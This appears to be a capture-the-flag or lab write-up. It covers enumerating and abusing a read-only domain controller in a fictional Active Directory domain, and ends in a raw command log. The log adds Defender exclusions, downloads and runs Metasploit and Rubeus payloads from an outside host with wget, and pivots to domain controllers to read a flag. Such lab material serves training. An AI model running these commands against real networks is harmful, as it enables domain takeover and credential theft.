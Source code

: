 ```powershell
msds-revealondemandgroup       : {CN=ValdoroComputers,OU=Valdoro,DC=factories,DC=mammamia,DC=local, CN=ValdoroUsers,OU=Valdoro,DC=factories,DC=mammamia,DC=local}
```

Now, for the `FACTRODC` computer, we can see that it has the `msds-krbtgtlink` attribute set. We can also see the `PARTIAL_SECRETS_ACCOUNT` flag set in the `useraccountcontrol` attribute. This indicates that `FACTRODC` is a read-only domain controller (RODC).

For now, let's continue the enumeration. We can see the `managedby` attribute is set to `CN=ValdoroManagers,OU=Valdoro,DC=factories,DC=mammamia,DC=local`. As explained in the recommended reading material, the `managedby` attribute is special for RODCs, and it is used to specify the group/user that can manage the RODC, i.e. local administrators on the RODC.

We can dump the members of this group:

```powershell
C:\Windows\Temp\attacker>net group "ValdoroManagers" /domain
The request will be processed at a domain controller for domain factories.mammamia.local.

Group name     ValdoroManagers
Comment        

Members

-------------------------------------------------------------------------------
silvia.galli             
The command completed successfully.
```

Here, we see that `silvia.galli` is a member of the `ValdoroManagers` group. This means that `silvia.galli` is a local administrator on the `FACTRODC` computer.

Now, a RODC is allowed to "retrieve" the credentials for accounts listed in the `msDS-RevealOnDemandGroup`, as long as these accounts are not listed in the `msDS-NeverRevealGroup` attribute. In this case, the `msDS-NeverRevealGroup` attribute is not set, so the `FACTRODC` computer should be able to retrieve the credentials for any account listed in the `msDS-RevealOnDemandGroup` attribute.

In this case, the `msDS-RevealOnDemandGroup` attribute is set to `ValdoroComputers` and `ValdoroUsers`. We already know that `FACTWS` is a member of the `ValdoroComputers` group. Let's list all the users in the domain (output has been modified and truncated for brevity):

```powershell
C:\Windows\Temp\attacker>.\SharpView.exe Get-DomainUser -Domain factories.mammamia.local -DomainController mgmtdc.factories.mammamia.local
.\SharpView.exe Get-DomainUser -Domain factories.mammamia.local -DomainController mgmtdc.factories.mammamia.local
[Get-DomainSearcher] search base: LDAP://mgmtdc.factories.mammamia.local/DC=factories,DC=mammamia,DC=local
[Get-DomainUser] filter string: (&(samAccountType=805306368))
objectsid                      : {S-1-5-21-3201321165-582068547-786307507-500}
useraccountcontrol             : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
name                           : Amministratore
distinguishedname              : CN=Amministratore,CN=Users,DC=factories,DC=mammamia,DC=local
samaccountname                 : Amministratore
memberof                       : {CN=Domain Admins,CN=Users,DC=factories,DC=mammamia,DC=local, CN=Administrators,CN=Builtin,DC=factories,DC=mammamia,DC=local}
description                    : Built-in account for administering the computer/domain

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-502}
useraccountcontrol             : ACCOUNTDISABLE, NORMAL_ACCOUNT
name                           : krbtgt
distinguishedname              : CN=krbtgt,CN=Users,DC=factories,DC=mammamia,DC=local
samaccountname                 : krbtgt

objectsid                      : {S-1-5-21-3201321165-582068547-786307507-1116}
useraccountcontrol             : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
name                           : silvia.galli
```

[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      